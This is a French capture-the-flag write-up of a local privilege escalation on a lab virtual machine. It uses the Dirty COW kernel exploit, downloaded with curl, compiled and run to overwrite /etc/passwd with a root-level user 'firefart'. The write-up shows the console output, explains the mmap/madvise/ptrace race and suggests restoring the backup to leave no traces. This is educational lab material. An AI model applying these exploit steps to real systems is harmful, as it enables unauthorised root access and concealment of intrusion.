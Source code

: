 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.
-   scp -r -p user@serveur1:chemin/vers/dossier/source user@serveur2:chemin/vers/dossier/destination (envoyer le _script2.sh_ vers _laurie_)

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

```
$> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                Dload   Upload  Total   Spent    Left  Speed
100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
$> gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty "petdefeu"
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: petdefeu
Complete line:
firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix durant 9 ans. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé, elle s'exécute en parralèle du second thread qui notifie au système que le map ne sera pas utilisé bloquant ainsi la vérification des droits (via madvise()).


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` qui va bloquer l'espace mémoire mappé pendant que l'autre thread le remplit avec le nouvel utilisateur. 
- `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, permet au processus parent de suivre l'enfant.
- `kill` processus enfant
- `pthread_join` suspends le thread

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

```bash
$> su firefart
Password:
``` 

Nous pouvons vérifier que nous avons tous les droits en tapant la commande `id`:

```bash
$> id
uid=0(firefart) gid=0(root) groups=0(root)
```

__Bravo ! Vous êtes root !__
